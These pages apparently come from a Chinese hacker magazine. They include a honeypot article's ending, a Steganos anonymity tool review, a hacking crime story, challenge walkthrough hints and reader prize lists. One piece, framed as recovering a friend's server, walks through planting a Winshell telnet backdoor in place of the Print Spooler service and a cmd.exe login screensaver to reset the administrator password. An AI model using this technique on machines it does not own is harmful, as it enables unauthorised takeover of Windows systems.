配置蜜罐和钓鱼有些相似。传统意义上，大部分的蜜罐配置都不是对不同目的有针对性的配置，而是都采用了相同配置。这就像在任何湖上里钓鱼，用同样的线、同样的鱼饵、同样的漫不经心。这些“鱼”（攻击者）会扫描、入侵有可能进入的一切主机。它们使用自动攻击程序时很容易被蜜罐捕捉。因为任何攻击都是基于 IP 堆栈的，但我们没有时间去检查这些攻击对蜜罐是否产生了影响。蜜罐可以秘密地捕获大鱼。一些机构对自动化或普通攻击并不担心，它们更关心的是高级攻击者对它们脆弱系统的威胁，还有那些想窃取并出卖机密信息的内鬼。捕获像这样的危机，配置就要有针对性，而且还要有合适的诱饵和场所。你不可能在一个本地的池塘里用简单的钓鱼技巧钓到 150 磅的大海鲢，这就像“钓”高级攻击者一样，你的蜜罐一定要有合适的场所、适当的时间和合理的配置。有针对性地定制蜜罐，是一项费时、费力的工作。

举个例子：如果你担心你的网站被人入侵，而你在外网上的 Red Hat 7.3 的蜜罐又没有有针对性配置，那么你很可能捕获不到攻击者的行为；如果你要捕获最新的攻击或溢出方法，你需要先进的蜜罐，如 CVS honeypot。这种蜜罐将会给利用新技巧的攻击者予以很高的“回报”和吸引力。在对付内网威胁上，你要秘密建立一个蜜罐，并使它看起来像正在研发的数据资料库。总之，为了更好地捕获“侦机”，你的蜜罐就必须要有针对性。

### ——总结——

蜜罐技术在公共安全领域发展的潜力是巨大的。它可以完成其他技术很难完成的任务。和其他任何新技术一样，它也面临着许多挑战。大部分的问题可能都将会被解决，但结果怎样我们拭目以待。

### 编后

蜜罐带给我们的是什么？是安全第一的保证。我们衷心希望蜜罐可以良好地发展下去，从网络安全各个角度来看，使蜜罐都起到它应有的效用。同时，我们也要认识到：蜜罐有自己功不可没的优点，也有其自身的缺陷。如何权衡而用之，就看你自己的选择了。

## Windows Server 2003

### 密码恢复实录

文/图 Tavor

朋友是网管，一日打电话说非要急着见我，还说要请我去吃麦当劳，平时见他一毛不拔，不知道今天吹什么风，肯定没好事，果真！他们单位的服务器被黑了，而且服务器的管理员密码被改了。他的服务器是 Server 2003 操作系统，打了最新的补丁，现在无论如何就是进不去，如果数据丢失严重的话，估计他就要立刻走人了！

朋友一场，不能让他就这么丢了“饭碗”啊！平常让他多学点安全知识还不学，给他看黑防也不看，以为整天盯着微软的补丁就行，终于尝到了痛苦的滋味了吧！呵呵，我去看看，不就是 Server 2003 丢了密码嘛，小事一桩。因为我们已经发现了 NT 系统的一个本地安全问题了，对付密码丢失轻而易举。下面先来讲讲我们这个新发现。

NT 架构的 Windows 系统默认启动的服务所依赖的程序有 dllhost.exe、lsass.exe、services.exe、svchost.exe 和 spoolsv.exe。一看就知道 dllhost.exe 是和 dll 有关，替换掉的后果可想而知；lsass.exe 和系统登录有关，如果把 XP 的 SAM 文件删除掉，lsass.exe 文件在登录的时候就会提示出错，因而它也是不可替换的；还有就是 services.exe 文件，一看就是和 service 有关，我试了一下，替换后不会出现登录界面，而是黑屏，什么都没有，看样子是行不通的。再者就是 svchost.exe 了，这个是 NT 架构服务中最重要的文件，自启动的 80% 的服务都是依赖这个程序的，因此替换它是根本不行的；最后就锁定在这个 spoolsv.exe 了，它所依赖的服务 Print Spooler Service，默认是 Automatic（自启动），而它并不是系统启动必须的（我一般安装的 2K、XP 后都会停止掉这个服务的，不过一般人都是按默认配置的，还是很具有一般性）。替换掉系统服务后，用于替换的这个程序就具有了系统权限，但是你如果想和这个程序通信就必须要有一个 shell，无论是图形界面的还是通过命令行界面的，这里我用 cmd.exe 替换 logon.scr 就能得到一个超低权限的 cmd.exe 构成的 shell，这样通过这个 shell 与本地后门服务进行通信，就可以轻松获得系统权限，从而可以执行任意指令。

因为我们要用到上面提到的 Print Spooler 服务，问了一下朋友，他说没更改过默认设置。那就好办了，用 DOS 启动盘启动到 DOS 下一看：系统盘竟然是 FAT32，唉，真不知道该怎么说我的朋友了，对于安全性要求这么高的服务器，却只图方便给配了个 FAT32 格式，要是用 NTFS 也许还不会被黑呢！还是办正事，因为是 FAT32 格式，这里就用不着 NTFSDOS Professional 工具了，直接执行图 1 所示的指令（这里 server.exe 是用来替换 Print Spooler 服务程序的，是 Winshell 生成的 telnet 服务程序，我设的密码是 58801353，端口设的是 5277）。

图1 在 DOS 下对 Server 2003 进行文件替换

然后重启到 Server 2003 的登录界面，不要动鼠标和键盘，大约过了十来分钟左右，终于出现我期待已久的“屏保”（图 2）。

图2 登录“屏保”cmd.exe

现在就应该连接被替换过的 Print Spooler 服务了，指令如下：

```text
d:\Windows\system32> telnet

telnet> set LOCAL_ECHO

telnet> open localhost 5277
```

要求你输入密码，输入设置的 Winshell 密码，回车，就到了 Winshell 操作界面了，执行 s，注意看显示的 Windows 系统版本为 5.2.3790（XP 是 5.01.****，2K 的是 5.00.****），表明是 Server 2003，然后重新设置了一个管理员的密码，并添加了一个新的管理员，以上操作如图 3 所示。

图3 利用登录屏保更改管理员密码并成功添加了一个管理员

退出 winshell 和“屏保”；返回到登录界面，用刚设置的管理员密码成功登录（图 4）。

图4 用刚设置的管理员密码成功登录

呵呵，看看朋友设置的破服务器，唉，数据库服务也在上面，结合 ASP，最近 SQL Injection 如此流行，就我朋友这点知识不被攻才怪呢！还是我来帮帮他吧……这些都是后话！怎么样，从前以为在本地固若金汤的 Windows XP、Server 2003 还是很容易被“攻”进来了？各位小心了啊！

### 开着隐形战斗机上网

Socket，新兵训练营的朋友们，你们是否有过这样的想法：上网的时候能把自己的行踪隐藏起来，让别人看不到，最好在上网的计算机上也能不留下任何痕迹呢？手动操作可能对初学者来说难了点，不过有了下面介绍的这款工具，上网隐身就易如反掌了。

上网、冲浪、聊天、网络游戏、网上办公，我们尽情遨游在网络的世界里，静静地享受着它带给我们的一切。当我们在网络世界中对酒当歌的时候，当我们在网络世界中驰骋商场的时候，当我们在网络游戏中大败群敌的时候，当我们正处在关键时刻的时候，“爱机”突然失灵！一切美好在瞬间消失（此刻，美好=黑屏+蓝屏+死机！），难道这是“爱机”的反抗，难道这是“爱机”的疲倦状态？骗子都会告诉你，你中病毒了，或者被入侵了！那么黑客是怎样入侵你的电脑的？迷惑……

| 项目 | 内容 |
|---|---|
| 机型 | Steganos Internet Anonym Pro 6（俗称Steganos隐形战斗机，又名伪装器） |
| 大小 | 9M |
| 适用用户 | Windows 98、Windows 2000、Windows XP |
| 功能 | 能让你在数以万计的计算机群中任意遨游，而不被“黑客”发现。 |

“黑客”入侵电脑的第一步总是不断地扫描一定范围的IP和每个IP所对应的端口，一旦发现漏洞，就会不断地连接，登录你的电脑，获取你的秘密，破坏你的电脑。需要说明的是这些都是伪黑客做的好事，真正的黑客是从技术上研究网络的安全，不会做出破坏网民群众财产的行为的（为了不看到满天的鸡蛋飞，我还是把问题尽量说清楚些！）。

大家都知道在Internet上IP就相当于现实生活中的门牌号，在这个大型的网络世界中，暴露了自己的IP地址，即使其他安全措施做得再好，你的安全性也就失去了一半。或许这就意味着你的计算机资源共享了。那么，怎样保障我们能在网络中正常地学习工作和娱乐？怎样保证我们的个人隐私和商业机密不被泄露呢？怎样彻底地清除使用过的文件和Cookie文件呢？下面就是我们的主角登场了：上网工具之“隐形战斗机”。

Internet上有两种计算机，一是Server，是提供服务的计算机；二是Client，亦即是我们，而我们会使用Server提供的服务。当我们要使用服务时，我们会把我们所要的服务及IP地址告诉Server。Server接收后便会把服务传送到我们的IP地址，所以我们使用Server的服务时，Server是一定要知道我们的IP地址。要把自己的IP地址完全隐藏起来是不可能的，因为没有人知道我们的IP地址，外面便没有人能连接到我们的计算机。唯一可行的方法便是在我们和Server的连接中加一部计算机，即是我们连接A计算机，A计算机再连接Server去提取服务。当中我们只会把自己的IP地址告诉A计算机，而Server也只知道A计算机的IP地址，我们是没有和Server有任何连接，这样我们便把IP地址隐藏了。Steganos隐身器就是使用的这种原理。还等什么呢？快来领略Steganos隐形战斗机的风采吧（图1）。

图1 Steganos伪装器主界面

### 在网络中消失

### 1. 隐身前的准备——代理服务器设置

点击主界面下的Setting按钮，在弹出的窗口中选择代理服务器的隐身设置，进图2所示界面。

图2 Steganos网络伪装器代理服务器设置

选中隐身代理服务器，选中自动改变伪装身份，进度条显示的是设置改变隐身的频率，最快的速度是每秒钟一次，最慢的频率是每分钟一次，我们选择最快的变换速度，这样的安全性是最高的。

### 2. 开始启动隐身引擎

Steganos隐形战斗机采用每一秒钟随时变化Server与Client之间连接的主机，达到隐身自己本身地址的目的，使用起来非常简单，爱鼠轻轻地一动——在主界面上点击Surf Anonymously（启动伪装），Steganos隐形战斗机的隐身引擎就启动了！右下方绿色的字体会显示你当前的真实IP和正在不停变换的虚假IP。

### 3. 停止隐身引擎

在主界面上点击Camouflage active（启动伪装）即可。既然叫做战斗机，那么它的功能自然不只是隐身了，它还要参加战斗。下面看看它是怎样在网络中充当安全保卫战士的。

### 安全防御

网站上潜伏着各种各样的危险，Steganos伪装器能提供网络锁定功能，限制进行危险的操作。点击Comfort and Security进入安全锁定界面（图3），可以发现它具有下面诸多的功能。

图3 Steganos网络伪装器安全锁定

- 1. 锁定浏览器验证：网络浏览器验证能给出你所浏览的网页站点的信息，该功能用Steganos网络伪装器自带的验证信息进行伪装。
- 2. 锁定Active对象控件：Active对象控件是特洛伊木马和拨号器寄生的地点，如果将其锁定，即使有病毒也没有发挥的余地。
- 3. Cookies锁定：防止别人通过Cookies文件进行攻击。
- 4. Script锁定：如JavaScript可以通过远程控制你的计算机，锁定该功能，就避免电脑被控制。
- 5. 弹出窗口锁定：在你打开一个网站的时候，连续地弹出若干个广告窗口，这种情况几乎时有发生，让人产生厌倦，这下好了，我把它锁定！（哈哈！看你怎么弹！）
- 6. 关闭窗口：当访问网站时不停地打开无数个窗口，你不能马上离开，使你不得不去关闭这些讨厌的窗口。
- 7. 鼠标控制：你在浏览网页的同时，你的鼠标所做的操作有可能被“黑客”捕获，他们可以根据你的鼠标使用的情况知道你做了些什么，也把它锁了吧！
- 8. 背景音乐：许多网站爱做一些背景音乐，不管你爱不爱听。这项功能就是不管你好不好听，统统关掉，留给你一个安静的世界。

安全和方便总是一对矛盾的统一体，有了上面的这些限制，虽然我们安全了许多，但是方便也就受到了限制，因此我们可以有选择地关闭一些功能。

### 私人爱好收藏

每个人都有自己的爱好，上网也不例外，自己有喜欢去的网站、喜欢访问的网页，又怕自己的隐私被别人发现，怎么办？Steganos网络伪装器能给你一个自己的空间（算是Steganos网络伪装器对你额外的奖赏吧）；如图4所示。

这里可以随意添加你喜欢的网址，方便下次浏览；如果离开，朋友或同事要用一下电脑，不让用是不可能的，有违朋友、同事的情意。难道就赤裸裸地公开？你要说“不！”利用Steganos网络伪装器提供的加密工具，对你的隐私进行加密，一切就搞定了（要看网站？输密码！）！

### 请删除跟踪信息

访问网站后系统会自动记录你访问的具体信息，如Windows系统的回收站、临时文件、历史记录、Cookies文件、Office办公软件会留下的信息等，一并将它消灭。图5所示的设置将会帮你自动删除，在你设置时一定要注意是删除哪一天的和哪些内容，要不然自己辛苦做了几天的工作就Over了（到时不要怪我没有提醒哦！）。

### 彻底清除残留文件

在做删除操作时，Windows系统中的文件实际上是没有被删除的，而是做了一些特殊处理，将文件隐藏起来了。Steganos粉碎器可以彻底地删除曾经你试图删除的文件，它由两部分组成：一部分是删除你要删除的文件，一部分是整理你的硬盘驱动器，彻底清除你曾经删除的而仍然隐藏在磁盘上的文件。进入删除文件的窗口，选择删除或做磁盘的清理，再选择要删除的文件或要整理的硬盘驱动器（图6）。

一般磁盘清理会花费很长的时间，因为由于常年的积累，要想把自己的硬盘清理一下，不费点时间是不行的。就让我们等吧，清洁这样的工作就留给它一个人去做好了（呵呵，战斗机还有清洁功能，酷吧！）。

### 编后

用起来感觉就是不一样，上网隐身不再是难题。但不知道通过变换IP来上网会不会影响上网的速度。为了上网隐身，我想付出一点速度也是没什么的。这个软件我们只提供给大家一个使用方式，千万记得不要利用该软件的功能破坏他人的计算机哦。

### 柔情

文／阿九大人

华丽的人生在朴素的道路上前进，绿叶也开始腐败……

今年的卡泽，让人振奋的事情有很多。然而，振奋只是一种心情，无所谓好坏，它表达的仅仅是人们当时的一种感受。

自从胜泰的业绩表被人发布在网上，已经有3天了。胜泰的规模并不大，只有3000多万，但这次信息的发布造成公司大批客户流失，损失虽不致命，却也让胜泰焦头烂额。

理所当然，这被当作是卡泽的一起重大经济犯罪案来处理了。

理所当然，唐琳找到了我。

刚才草草地去胜泰的服务器转了一圈，没有什么头绪，很明显被入侵过，但是什么时候、怎样入侵进去的却不知道。13天后，传来名光也被入侵的消息。我的脸色有些难看：这边才刚刚有个头绪，那边就又出了问题。唐琳对我的压力很大，但是这种压力却决不是一个男人可以拒绝的，所以我发誓一定要把这只黑手给揪出来。

“这已经是本市第2起类似案件了。每次案件都给纳税人带来了7位数的损失，如果迟迟案件不破，我看我就该辞职了，哼！”唐琳抑制不住自己的冲动，冲我发火。

“那能怎么样？”看了一下刚刚烧好的咖啡，“呵呵，味道不错。俺可是义务兵，帮你可是一点待遇都没有啊……”

“那，当匡扶正义也好，就算倒贴钱，你也应该干！”她一时为之气结。

“我认为……”我坐正身子，严肃地对唐琳道，“对于我个人来说，工资太低，甚至不发工资，是绝对不可能的。金钱，是驱动我的唯一动力！”说完这些，我回头继续喝咖啡，我想她应该知道我是和她开玩笑的。

“凭心而论，入侵这两家服务器的人非常强，某些方面，我是指专业技能和观察力方面，已经明显超越了你我。”

“嗯，同意。在胜泰被入侵的时候我就考虑过，他是怎么进去的？！胜泰对外部连接是SSL的，但内部网络却不是这样。于是，他就把一个嗅探器放到了这里……因此，很容易就得到了他所需要的东西，但是这里有一个很关键的问题。”唐琳双眼透过镜片闪烁着光芒，“他是如何把嗅探器放到这里的！”我知道她故意吊我胃口，所以继续等她说下去，而唐琳显然不满我这种懒散的态度。“起先，我们怀疑是公司内部成员，但是他们看起来都很忠诚，而且基本都没有入侵公司的能耐。”

“外部使用SSL，所需要做的工作是跳过它，入侵内网，取得资料。嗯，入侵的题目是这样的吧。”我慢慢地说，“这种情况我也考虑过，以现在的科技水平，嗅探SSL中的信息基本不可能，但是我却成功了一次，嗯……想知道怎么做么？”看到她一脸的渴望，我的心里就无形地升起一种满足感，“去，把咖啡倒满。”

当自己的要求被满足的时候，这种感觉尤为强烈。

“他其实并没有直接入侵胜泰的这部有SSL的服务器，入侵的是它旗下的一家被信任的子公司，因为子公司并不是很注重安全，所以存在一些小漏洞，但是却足以致命。他用被入侵的机器和胜泰的SSL服务器交换信息，顺便传了一个东西过去……实现了我们所看到的结果。其实在与SSL服务器交互的时候，他已经取得了他所要的东西，之所以在那里SSL服务器里留下足迹，完全是为了掩人耳目。”我慢慢地阐述自己的推理，因为我知道这个说法比较高手，所以我尽量语气平静。

“你说这是个幌子，那也仅仅是你个人的想法啊。”唐琳显然不满我这个推理。

“我有九成的把握推断他是这样做的。现在越来越觉得自己是个老太婆了，呵呵。所谓入侵，基础就是漏洞的利用，但是利用漏洞的后果就是或多或少会留下一些足迹。只是高手能擦掉它，而庸人对此却丝毫不做理会。当然，我能列举出证据的。”我笑笑，顺手将16天前的胜泰旗下那家我说的子公司的日志给她看。

唐琳疑惑地接过我手上的几页纸：“一天就产生这么多日志，也不嫌麻烦呀？”稍微看了看，她还给我了，“没什么问题啊，不是很正常么？”

“直接看当然没问题，但是仔细想想，一个日志做得如此仔细的公司，或者说公司人员笨到不会调整日志的公司，为什么会缺少凌晨2:00到4:00的日志呢？两个小时，足够一个黑客做完所有想做的事情。事后我也到胜泰的服务器走了一圈。呵呵，当然是拿了公司给的ADMIN进去的，咱可是被授权过的。我发现同样也是少了2个小时的日志。”

“听你这么一说，原来案子很简单嘛。”唐琳是一个聪明的女孩子，只是有时会局限于女性的思维。

“也是，也不是。我是考虑一个星期左右才想到的，所以我依然确认那个人很强。知道了犯罪的方法，现在第2起案件就容易理解多了。我想，离他彻底归案也不远了。”我清了清喉咙，“下面我向您分析第2个案件，虽然同样比较奇怪，但是飘雪大人一定要认真听哦。~~”——飘雪是唐琳的网上ID。

“哎呀，什么大人不大人的，继续说就是，不过……你能不能再叫一遍？”

“飘雪大人~~”

“再叫一遍！！”

“飘雪大人~！！！！！！”

“再叫一……”（楼下飞来无数板砖，骗稿费之人，见而杀之！[以上动作难度较大，未成年请勿模仿]）

“第2次入侵名光也是很有意思的。因为两个案件都比较离奇，所以暂时认为是一个人所为。不过根据分析，一个人的可能性非常高。”

“步入正题！”唐琳期待着。

“这部服务器没有采用SSL，但是入侵难度一点不比第一台差，”我细细地品味咖啡，有时候发现，咖啡真是个好东西，不光可以掩饰自己的情绪，还可以显得很有情调，看来以后每天都要喝了，“因为它开的服务太少了。”

“小琳，你不是学过犯罪心理学吗？”我问道，“在入侵的时候，对方肯定是有一种明显意识的，就算表面上没有，或者对方心里也没有这么想，他潜意识中还是会有一种很强烈的欲望或者说是思想指导着他。”

“我现在想得最多的是，他到底为什么要入侵这两家公司？这两家公司所涉及的行业都不相同，规模也不一样，或许在入侵的时候有炫耀技术的成分在其中，但肯定不是主要的。如果单纯是炫耀技术，没有必要把人家的业绩表公布出来，对方恼羞成怒对双方都没有好处。如果是商业敌人……说实话，在本市还找不到。他们的公司在客户的口碑中信誉都很好。”

“先停停，你刚才叫我什么？”

“小琳……”我开始有点后悔不该得意忘形，说实话，我打不过她，不是因为男人要让着女人，是因为真打不过。

“嗯，你继续。~~”

她今天难得没有对我出手，我突然有种暖暖的感觉。

“不用说了，我已经做好了部署，现在只等他下次作案了。”我坚定地对她说。我总觉得男人生来就是为了给女人遮风避雨的。

“辛苦了这么久，也终于步入正题了。”他熟练地操作两部旧式电脑，一部入侵，一部整理资料。根据收集的情报和分析，这次入侵应该可以在1个小时内完成，但是为了以防万一，他还是选择了深夜3点开始。

“完成！呵呵。”烟雾缭绕中的他，笑了笑，接着点击了确认。可以说，这次状态非常好。很快，卡泽最大的企业——润河集团的详细资料映入眼帘。

为了这一切，他付出的太多了。不过看来也都是应该的了。如果没有付出，如何有收获？

今天要好好庆贺一下，他心下这么想着，远处却传来了敲门声。

深夜来访——呵，去看看。

他很快整理好机器，然后关掉，最后去开门。打开门，一个是女警，经常上电视，好像叫唐琳的来着；另外一个年轻人显得很消瘦，不知道是做什么的，但是眼神让人看了很不舒服，很锋利，看多了恐怕会发疯。

他已经明白了，但确实不在乎。

我和唐琳进了屋子。

“您好，我是负责计算机犯罪的唐琳，请问，称呼您李逸还是小剑呢？”唐琳保持对前辈的尊重，虽然这个人其实比她大不了几岁。

“实名吧，如果谈公事的话。”他显得很随意，和圈里流传的有些不一样。

“我们所来的目的想必你也知道吧。公布了那几家公司的业绩表，对你来说可能一点好处都没有。不过为何你要这么做呢？”

“你说的是那两个被入侵的企业吗？听说过，但是你们怎么肯定是我做的？”他这种神态让我很不舒服。

“看来还是需要我慢慢解释了。胜泰的服务器缺了两小时的日志，是2:00到4:00的。说实话，能想到如此方法攻击的，包括在下，本市不超过10个人，但是大家都没有理由去入侵胜泰，并且……你也是。”

“入侵之后16天，名光也被入侵，我就开始考虑两家公司之间的联系。被受嫌的人之中有时间去这么做的，包括在下，一共有4个人。这样一来，我们搜查的范围就少多了。虽然第2次入侵并不知道你是用什么方法入侵进去的，但这并不是问题。”

“为了防止系统被继续入侵，带来更多损失，警部所能做的只是监视除我之外的3个人。包括你。”

“这个什么都说明不了……你有点浪费时间了。”虽然他的话气还是很闲散，但是我肯定他已经开始动摇了。

“就算是警察，所做也必须合法，所以监视当然也不能做得很露骨。所监视的内容无非是确定是否有作案时间和作案地点、工具之类的。之所以让我们怀疑到您的，却并不是这些……”我解释道。

“那是怎样？”他问道。

“入侵的理由上。我们调查了一下胜泰和名光的合作伙伴以及联系比较多的企业。最强大的就是润河了，所以我们猜测，总有一天您会把目标定在这里的。”其实这个不是我分析的，是唐琳想出来的。

“一般来说，白天使用服务器上资源的人比较多，如果出了问题，就会很快被发现。再加上前两次入侵时间都是深夜，所以我们监视的时间也都差不多在深夜。不过值得庆幸的是，最近几天另外两个嫌疑人正好都是晚班，而且还有人可以作证，所以只能是你没错！”唐琳补充道，现在的心情真的很复杂。

“很早以前，老师就教过我们，除去不合理的，剩下的无论多么离奇，也一定是真相……说实话，你的名字是有很多人崇拜的，但是你为什么要做这种事情呢？无论如何，你触犯了国家的法律，更玷毁了黑客的名字。”唐琳显得很激动。

“现在的社会是讲证据的，唐琳女警，请拿出证据吧。如果只是作案时间，恐怕只能说我嫌疑比较大而已，还是无法说明就是我做的。”他看来还没有死心，我这么想到。

门口进来一人，给唐琳两张照片，唐琳什么也没有说，直接拿给李逸看。

他接过来看了看，叹了口气，“我自首还可以么？”

“现在的话，还算你自首。”说实话，对一个前辈这么说话，无论是谁都很痛心。现在所期待的，只是他能尽早地出狱。

“我入侵这3家公司的理由很简单，因为我需要一个平等的机会。”他说话的时候有些伤感，“在润河干了7年了，按说再怎么样也该提职了吧。但是不管怎么做，我的工资也没有涨多少。我埋怨的并不是这个，我以为是我和领导的关系不好的缘故，所以我开始送礼。”

“我并不能送什么东西，一个人也没多少钱。我买了两瓶好酒和一些水果去了我们科的科长家里，他没有让我进门。”他说得很含蓄，但是我还是听出来什么意思了，人家要的是钱，不是这点破东西！他把头低低地放了下去，继续回忆着。

“于是我开始着手调查公司的贪污受贿了……我知道自己是个老百姓，没有权利这么做，所以一切都是私下的，结果实在让我很吃惊。高层虽然能人颇多，但是不收贿贪污的几乎没有。而胜泰和名光与润河之间也有着千丝万缕的联系。入侵胜泰并没有找到我需要的东西，所以在生气的同时，公布了业绩表。虽然我也知道这样做是违法的。正好最近我发现一个新的漏洞，在入侵胜泰之后的几天，调试得可以实际利用了，所以入侵名光反而是很容易的，润河……也是用同一个漏洞进入的。”

他笑了笑，“不过很庆幸的是，所有需要的，全部都在润田企业的服务器内。不管怎样，我还是拿到了我需要的东西。”

“可是您确实触犯了法律。按你这样，怎么也要四五年才能出来。”

“那不是问题，四五年之后，如果我可以从头做起，在平等的机会下，我可以弥补这些年的损失。这次就当是我为国做了一次肃清，代价就是我自己。”他显然已经想到了有今天，只怕没有想到有这么快吧。

“带走！”唐琳下达了命令，一旁的小哥拉着李逸走出了房门。

我和她同时对正义这个词产生了怀疑，破了这个案子真的好吗？

“说实话，我也想当警察了。”我对唐琳说。

“为什么啊，你看你们拍的照片，那么远都能拍得那么清楚，这警用的和民用的相机就是不一样啊。”

“当然了，警用器材好东西多了去了，不过可不是给你随便玩的，哎呀，你还给我。”唐琳追赶着我。

这时我觉得，春天来了。

### 期待新的激情

3月15日，《黑客防线》攻防实验室第3轮正式开始。很幸运，众小编又一次见证了盛况。第一天服务器IIS当掉17次，蝴蝶MM跑上跑下9次，“阴险”的脚本小子在服务器上留了个后门，远程维护，省得楼上楼下跑。不过，后来被wtf知道后，一顿臭骂加上扣半个月奖金，理由很简单，任何一个后门都可能带来服务器上的不稳定，也存在被别人拿到密码的可能，如果被别人利用了这个后门，那我们整个活动的公平性就被破坏了！所以，wtf坚决禁止这样的事情发生！任脚本小子委屈也不理不睬，不过好在很快大家就明白了这个道理，都没说什么，不然还不知道局域网要瘫痪几天呢！（蝴蝶：说到这个我就气，上次他们为一个稿件该不该上吵得“天翻地覆”，后来进入冷战期，局域网内就开始出现奇怪的现象：上网特别慢，共享都打不开，后来刘流发现不对，用sniffer抓包一分析，感情这两个人在互相DoS！天啊，两个BT的家伙！）

言归正传，这几天实验室又一次让我们见识到了热心读者的威力，黑防官方论坛“攻防实验室”版块里，同时3000人在同一版块的盛况让我们大吃一惊！整个论坛同时在线人数突破10000人！我们非常害怕黑防主服务器会挂掉，幸好后来做了应急措施才能保证服务器的正常运行。

### 实验室第三轮通关指引

本轮实验室和前两轮相比，前七关更好玩一些，难度也有所提升，虽然很多朋友对这部分的技术都很熟悉，很轻松就拿到了前七关的奖品，但考虑到更多的朋友不太熟悉这些技术，所以下面我们给大家做个简单的思路指引，让大家有法可依。

- **第一关：** 特殊符号在IE中的显示问题，最简单的办法就是复制上面的文字到记事本，就可以看到two.htm第二关的页面地址了。
- **第二关：** 页面提示说“声音源就是密码！”，那就想办法把声音文件找出来，可惜网页是加密的，需要解密，然后得到关键的提示，分析SWF文件，得到密码输入后得到下一关的地址！大家要注意banner哦，呵呵。
- **第三关：** 很多人习惯将密码藏起来，这次就需要考考大家的眼光了！那个输入框是不是很奇怪？问题就在那里面！用SWF分析工具打开或记事本打开，得到用户名rongxiao，密码空白！这里面还有一个小关，得拿到rar文件中的信息和相关程序才能进入下一关，你搞定了吗？
- **第四关：** 拿到文件后，分析文件结构，改成为***.chm，这样大家就知道该怎么做了吧？可以用3种方法得到密码，我们给大家推荐一种比较方便的：反编译CHM，从文件得到http://978229.hacker.com.cn/rtsp.js下载，得到密码表，对照得出密码，转到正确页面，进入第五关！
- **第五关：** 需要将代码还原，解密方式的选择很重要，我们也绕了好几次圈子才找到解密的办法，其实就是BASE64编码，然后得到新的页面。可惜，还是什么都没有，仔细看会发现中间有个鼠标，然后Ctrl+A还有个图，找个图片分析工具看看，鼓捣半天得到sixsix36.htm。
- **第六关：** 要求账户和密码，仔细分析下，好像是APPLET，用JAVA反编译得出名字和密码，得到页面areyourready.htm，进入第七关！
- **第七关：** 研究加密方法，密码为doyoulikecs?，最后得到youarewiner.htm，可知其密码为：ihopenowar!!!得到nowar.htm，进入ok.youarewiner.htm，得到第八关入口提示！

前七关通关！呵呵，一口气写下来好累；只是大概的过关方法，而不是教程，希望大家可以通过思路的指引来灵活变通突破这几关，相信在网页加密／解密这方面的技巧就基本掌握了。

| 姓名 | 单位/地址 |
|---|---|
| 李继辉 | 河南郑州工程学院 |
| 李永召 | 河南省濮阳市 |
| 李喆 | 广西柳州市 |
| 匠业 | 南宁市 |
| 严哲敏 | 浙江台州丽水中学 |
| 丁在蕾 | 甘肃省高台县政府 |
| 杨帆 | 江苏省南通市 |
| 杨化恕 | 山东省临沂市 |
| 沈秋锋 | 上海市奉贤区 |
| 陈亮 | 广东省深圳市 |
| 金斌 | 内蒙古乌兰浩特 |
| 刘佳 | 哈尔滨工业大学 |
| 燕海涛 | 武汉市武汉工业学院 |
| 高文瑜 | 山西省长治市晋东南师专 |
| 程冲 | 河南郑州中州大学 |
| 彭硕 | 辽宁省沈阳市东北育才学校 |
| 张博 | 西安北沙坡 |
| 杨凯 | 山东信息职业技术学院 |
| 张长弘 | 云南省昆明市西南林学院 |
| 陈凯晖 | 上海打浦路 |
| 华列旦 | 江苏省南通市 |
| 董锐 | 安徽合肥工业大学 |
| 李大华 | 北京市海淀区（特别奖获得者） |

### 实验室第二轮获奖名单总结

第二轮结束的时候正好是在2月，由于春节的原因，我们的奖品发放晚了一些，再加上考虑到大学同学们开学的原因，如果过关的朋友留的是学校的地址，我们的奖品发放就会推迟，因为担心这期间邮寄到学校同学们收不到。如果因此晚了时间，请大家见谅！不过请放心，第二轮奖品会全部在3～4月发放完毕，如果你没有收到，请直接给yougoubu@hacker.com.cn发信说明你的情况，我们核实后会重新邮寄！

第二轮实验室过关的朋友，前七关名单已经确定，不再公布，2002年精华本已在年前发出，相信大家都收到了吧？

前八关的朋友最后总结的名单如下，将获得我们的三等奖。通过第八关，奖励《黑客防线》2002年精华本一本，价值35.00元；免费赠阅《黑客防线》半年杂志，价值60元，感谢这些朋友对我们的支持！奖品在三月份一次性寄出2004年第一、二、三期杂志，以后按月寄出。

| 姓名 | 单位/地址 |
|---|---|
| 姚永锋 | 四川师范大学电子信息工程学院 |
| 王锴 | 湖北省宜都市大众电脑城 |
| 刘哥 | 陕西省西安市西安思源学院 |
| 李璟 | 吉林大学远程计算机分院 |
| 李凤文 | 东北师范大学软件学院 |
| 赵海锋 | 山西省青年管理干部学院 |
| 陈海东 | 浙江省台州市 |
| 李彬 | 河南省焦作工学院 |
| 于小军 | 河南省济源市 |
| 韩彤 | 辽宁省开原市 |
| 苏荣超 | 湖南省长沙市南方大学 |
| 张毅 | 上海市万航渡路 |

通过第九关的朋友获得我们的二等奖，奖励《黑客防线》2002年精华本一本，价值35元；免费赠阅《黑客防线》半年杂志，价值60元；奖励《东方卫士2003》正版软件一套，奖品同样将在3月寄出！

除此之外，在我们论坛注册人数突破固定数目而举办的抽奖活动中，由于hacker@hacker.com.cn的邮箱有一段时间出问题，没有收到大家确认中奖的信件，所以整理出来的名单可能有部分遗漏，如果你中奖了而没有在这个名单中，请再和我们联系！这部分奖品我们已经在第一时间内发放了出去，请查收。另外，论坛抽奖获奖的朋友，再发信确认的时候，千万记得将你的论坛邮箱、ID、抽奖轮数、详细联系方式等相关信息告诉我们，我们将在最快的时间内确定名额并发送奖品，谢谢大家的支持！

下面几位是论坛注册人数80000人时的获奖名单，将获得《黑客防线》从创刊至今1-37期杂志的光盘合订本，超级精品，价值38元，奖品将在3月寄出！

| 姓名 | 单位/地址 |
|---|---|
| 冯智荃 | 上海市宝山区 |
| 崔凡 | 山西省运城市 |
| 陈路秘 | 广东省东莞市 |

其他抽奖幸运者也请速与我们联系，以便及时发放奖品，再次谢谢大家的支持！


IT人都是“电脑狂人”，小编们每天就守在电脑旁边，忙碌，忙碌，忙碌……一边和网络上的朋友交流最新的信息，一边又在疯狂地工作。实话说，很累，但和大家逗趣的欢笑声，和大家共同努力后成功的欢呼声，这些都是现实生活中无法替代的情感交流，给我们带来很多心灵的触动。可以毫不夸张地说，正是有了Internet，我们的生活才如此美丽！正是有了广大黑防的支持者，才让小编们的工作和生活增添了几分色彩，谢谢大家的支持，我们必将推出更好的文章送给大家！

